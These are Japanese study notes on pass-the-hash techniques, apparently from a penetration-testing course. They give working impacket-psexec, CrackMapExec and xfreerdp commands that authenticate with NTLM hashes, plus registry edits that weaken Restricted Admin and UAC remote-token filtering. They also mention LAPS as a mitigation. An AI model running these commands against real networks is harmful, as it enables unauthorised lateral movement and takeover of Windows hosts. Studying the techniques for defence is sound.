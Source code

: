 
`PsExec`を使用してターゲットマシンでコマンド実行を実行する
- サブネット内の各ホストに対して、ローカル管理者のパスワードハッシュを使用して認証を試みる場合は、コマンドに `--local-auth` を追加できる
	- あるホストの **SAMデータベースをダンプ** してローカル管理者のハッシュを取得し、そのハッシュを使って **他のホストにもアクセスできるか** を調べられる
```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

#### CrackMapExecでハッシュを渡す
- 大規模なActive Directoryネットワークのセキュリティ評価を自動化するのに役立つエクスプロイト後ツール
- CrackMapExecを使用して、ローカル管理者として正常に認証できる1つのホストを探しているネットワーク内の一部またはすべてのホストを認証できる

CrackMapExecでハッシュを渡す
- --local-auth を使うと、サブネット内の各ホストにローカル管理者ハッシュで認証を試せる。
- SAMデータベースをダンプして取得したローカル管理者ハッシュ を使い、他のホストにもログインできるか確認可能
- -x オプションを使えば、リモートでコマンドを実行可能。
	- 対策として「Local Administrator Password Solution（LAPS）」の導入を推奨。LAPS は ローカル管理者パスワードを定期的にランダム化 し、パスワードの使い回しを防ぐ。
```shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

whoamiコマンドを実行している様子
```shell
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```
公式ドキュメント
- [CrackMapExecドキュメントWiki](https://web.archive.org/web/20220902185948/https://wiki.porchetta.industries/)（[NetExecドキュメントwiki](https://www.netexec.wiki/)）


#### RDPでハッシュを渡す
xfreerdpとかでアクセスできるけど、いくつかの注意点がある
- `Restricted Admin Mode`はデフォルトで無効、ターゲットホストで有効にする必要がある。有効にしないとエラー出る
- 有効にする方法
	- **`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`** に新しいレジストリキー **`DisableRestrictedAdmin`（REG_DWORD）** を追加し、その値を **0** に設定することで有効化
windows上でコマンドで実行
```cmd
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

`Restricted Admin Mode`を有効にしたら、Pass The Hashでログインできる
```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


### UACによる制限
- UAC（User Account Control）は、ローカルユーザーがリモート管理操作を実行する能力を制限する
- **`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`** のレジストリキーが **0** に設定されている場合、**リモート管理が許可されるのは「Administrator（RID-500）」アカウントのみ** 
	- この値を `1` に設定すると、他のローカル管理者アカウントもリモート管理が可能になる
```sh
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
- `FilterAdministratorToken`（デフォルトでは無効）が **有効（値が `1`）** になっている場合、**RID-500（Administrator）アカウントも UAC の制限を受ける**。
- そのため、この設定が有効な場合、**このアカウントを使用した Pass-the-Hash 攻撃は失敗する**。
- これらの設定は **ローカル管理者アカウントのみに適用される**。
- **ドメインアカウントで管理者権限を取得した場合は、Pass-the-Hash 攻撃を実行可能**。
